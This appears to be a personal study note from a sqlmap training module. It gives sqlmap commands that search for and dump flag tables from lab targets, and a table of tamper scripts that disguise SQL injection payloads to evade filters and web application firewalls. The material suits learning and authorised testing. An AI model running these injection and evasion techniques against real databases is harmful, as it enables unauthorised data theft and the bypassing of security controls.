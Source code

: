 # sqlmap

Created: March 21, 2025 12:59 PM

```bash
sqlmap -r ~/sqlmap_misc/case5 --search -D testdb -T flag5 -C id
```

```bash
sqlmap -r ~/sqlmap_misc/assessment --random-agent --batch --no-cast --tamper=between -T final_flag --dump
```

Get used to applying tampers!

| **Tamper-Script** | **Description** |
| --- | --- |
| `0eunion` | Replaces instances of  UNION with e0UNION |
| `base64encode` | Base64-encodes all characters in a given payload |
| `between` | Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #` |
| `commalesslimit` | Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart |
| `equaltolike` | Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart |
| `halfversionedmorekeywords` | Adds (MySQL) versioned comment before each keyword |
| `modsecurityversioned` | Embraces complete query with (MySQL) versioned comment |
| `modsecurityzeroversioned` | Embraces complete query with (MySQL) zero-versioned comment |
| `percentage` | Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T) |
| `plus2concat` | Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart |
| `randomcase` | Replaces each keyword character with random case value (e.g. SELECT -> SEleCt) |
| `space2comment` | Replaces space character ( ``) with comments `/ |
| `space2dash` | Replaces space character ( ``) with a dash comment (`--`) followed by a random string and a new line (`\n`) |
| `space2hash` | Replaces (MySQL) instances of space character ( ``) with a pound character (`#`) followed by a random string  and a new line (`\n`) |
| `space2mssqlblank` | Replaces (MsSQL) instances of space character ( ``) with a random blank character from a valid set of alternate characters |
| `space2plus` | Replaces space character ( ``) with plus (`+`) |
| `space2randomblank` | Replaces space character ( ``) with a random blank character from a valid set of alternate characters |
| `symboliclogical` | Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `||`) |
| `versionedkeywords` | Encloses each non-function keyword with (MySQL) versioned comment |
| `versionedmorekeywords` | Encloses each keyword with (MySQL) versioned comment |

---

[Sqlmap_Essentials_Module_Cheat_Sheet.pdf](sqlmap%201bd021737a8980bf898cd93b7fd9a8ce/Sqlmap_Essentials_Module_Cheat_Sheet.pdf)